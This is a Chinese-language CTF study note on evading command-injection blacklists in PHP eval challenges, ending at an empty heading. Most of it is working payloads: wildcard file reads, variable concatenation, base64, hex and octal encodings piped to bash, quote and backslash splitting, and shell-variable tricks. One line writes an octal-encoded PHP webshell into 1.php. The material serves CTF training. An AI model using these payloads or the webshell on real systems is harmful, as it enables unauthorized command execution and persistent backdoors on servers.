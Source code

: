 环境和上面一样，传入的c会被eval执行，要求读取到flag.php的内容，这个就是利用grep进行字符串匹配，绕过姿势如下

```perl
c=system("cat fl*g.php | grep  -E 'fl.g' ");
```

具体来说，它会使用系统的 “**cat**” 命令来输出文件名以 “fl” 开头且以 “g.php” 结尾的文件内容，并使用 “grep” 命令过滤掉不包含 “fl.g” 的行。最后，这个命令的输出会被赋值给变量 $c。
###### 1、拼接绕过  
比如：`a=l;b=s;$a$b`  
上面的第二道题目也是利用偶读拼接方法绕过黑名单：`a=fl;b=ag;cat $a$b`
###### 2、编码绕过
**base64：**
```
 `echo MTIzCg==|base64 -d` 其将会打印123  
 `echo "Y2F0IC9mbGFn"|base64-d|bash` ==>`cat /flag`
```
**hex：**

```
 `echo "636174202f666c6167" | xxd -r -p|bash` ==>`cat /flag`
```
**oct：**

```
 $(printf "\154\163") ==>ls  
 $(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag  
 {printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag  
 #可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>  
 ${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```
###### 3、单引号和双引号绕过  
比如：
```
`ca''t flag` 或`ca""t flag`  
```
###### 4、反斜杠绕过  
比如：
```
ca\t fl\ag
```
###### 5, js检测绕过
Ctrl+u查看代码发现判断在url里面的js代码中，所以就要用火狐禁用js或者burp抓包
![[Pasted image 20231213090350.png|700]]
火狐关闭js
![[Pasted image 20231213091911.png]]
######  6,利用Shell 特殊变量绕过
![[Pasted image 20231213102230.png]]
linux shell中$n表示传递给脚本或函数的参数。n 是一个数字，表示第几个参数。  
例如，第一个参数是1，第二个参数是2。而参数不存在时其值为空。  
$@表示  
比如：ca$@t fla$@g  
ca$1t fla$2g
##### 长度限制
长度限制可以用**文件构造**的方式来绕过。

```
linux下可以用 1>a创建文件名为a的空文件  
ls -t>test则会将目录按时间排序后写进test文件中  
sh命令可以从一个文件中读取命令来执行
```

利用这些特性，即可以成功绕过长度限制来执行命令。
##### 内联执行
